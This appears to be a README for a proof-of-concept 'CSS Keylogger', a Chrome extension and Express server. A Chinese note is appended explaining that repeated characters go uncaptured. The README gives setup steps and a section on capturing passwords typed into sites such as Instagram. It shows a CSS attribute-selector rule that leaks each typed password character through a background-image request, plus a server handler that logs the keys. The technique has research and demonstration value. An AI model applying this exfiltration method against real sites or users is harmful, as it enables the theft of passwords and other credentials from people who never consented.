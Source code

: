 # CSS Keylogger

Chrome extension and Express server that exploits keylogging abilities of CSS.

## To use

### Setup Chrome extension

1. Download repository `git clone https://github.com/maxchehab/CSS-Keylogging`
2. Visit `chrome://extensions` in your browser (or open up the Chrome menu by clicking the icon to the far right of the Omnibox: The menu's icon is three horizontal bars. and select Extensions under the More Tools menu to get to the same place).
3. Ensure that the Developer mode checkbox in the top right-hand corner is checked.
4. Click `Load unpacked extension…` to pop up a file-selection dialog.
5. Select the `css-keylogger-extension` in the directory which you downloaded this repository.

### Setup Express server

1. `yarn`
2. `yarn start`

### Haxking l33t passw0rds

1. Open a website that uses a controlled component framework such as React. [https://instagram.com](https://www.instagram.com/).
2. Press the extension `C` on the top right of any webpage.
3. Type your password.
4. Your password should be captured by the express server.

## How it works

This attack is really simple. Utilizing CSS attribute selectors, one can request resources from an external server under the premise of loading a `background-image`.

For example, the following css will select all input's with a `type` that equals `password` and a `value` that ends with `a`.
It will then try to load an image from `http://localhost:3000/a`.

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

Using a simple [script](https://github.com/maxchehab/CSS-Keylogging/blob/master/build.go) one can create a [css file](https://github.com/maxchehab/CSS-Keylogging/blob/master/css-keylogger-extension/keylogger.css) that will send a custom request for every ASCII character.


备注：

css 选择器加载外部资源，只能触发一次，例如：输入字母 ‘a’, 触发如下 css 代码

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

在服务器端通过 `req.params.key` 获取到输入的内容

```js
app.get("/:key", (req, res) => {
  process.stdout.write(req.params.key);
  return res.sendStatus(400);
});
```

当再次输入字母 ‘a’ 时，上述的 css 代码并不会再次去请求外部资源，意味
着服务器端获取不到该次输入，最终的结果是只能捕获没有重复内容的密码。

例如：
|输入|实际捕获|
|---|---|
|12345|12345|
|1014333|10143|
|123454321|12345|


